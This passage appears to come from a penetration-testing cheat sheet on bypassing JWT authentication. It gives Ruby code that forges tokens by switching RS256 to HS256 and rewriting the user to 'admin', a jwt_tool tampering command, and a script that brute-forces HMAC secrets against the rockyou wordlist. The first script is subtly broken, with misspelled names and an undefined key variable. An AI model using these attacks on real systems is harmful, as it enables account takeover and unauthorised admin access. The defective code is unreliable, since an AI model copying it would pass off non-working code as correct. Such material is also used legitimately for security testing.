 Using ruby:

```ruby
require 'base64'
require 'openssl'

f = File.open("public.pem").read

TOKEN = "FULLJWTTOKENHERE"

header, payload, signature = TOKEN.split('.')

decoded_header = Base64.decode64(header)
decoder_header.gsub!("RS256", "HS256")
puts decoded_header
new_header = Bas64.strict_encode64(decoded_header).gsub("=","")

decoded_payload = Base64.decode64(payload)
decoder_payload.gsub!("your_user_here", "admin")
puts decoded_payload
new_payload = Bas64.strict_encode64(decoded_payload).gsub("=","")

data = new_header + "." + new_payload

signature = Bas64.urlsafe_encode64(OpenSSL::HMAC.digest(OpenSSL::Digest.new("SHA256"), pub, data))
```

## JWT bypass no verify
This only works if the server didn't verify the signature. We can tamper the JWT using [https://github.com/ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool). Step-by-step:
- Tamper the JWT

  ```bash
  $ python3 jwt_tool.py jwt -T
  ```

- Profit

## JWT bypass weak secret
Step-by-step:
1. Bruteforce the secret:

    - Using ruby:

      ```ruby
      require 'base64'
      require 'openssl'

      jwt = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjpudWxsfQ.Tr0VvdP6rVBGBGuI_luxGCOaz6BbhC6IxRTlKOW8UjM"

      header, data, signature = jwt.split('.')

      def sign(data, secret)
          Base64.urlsafe_encode64(OpenSSL::HMAC.digest(OpenSSL::Digest.new('SHA256'), secret, data)).gsub("=","")
      end
      File.readlines("/usr/share/wordlists/rockyou.txt").each do |line|
          line.chomp!
          if sign(header+"."+data, line) == signature
              puts line
              exit
          end
      end
      ```
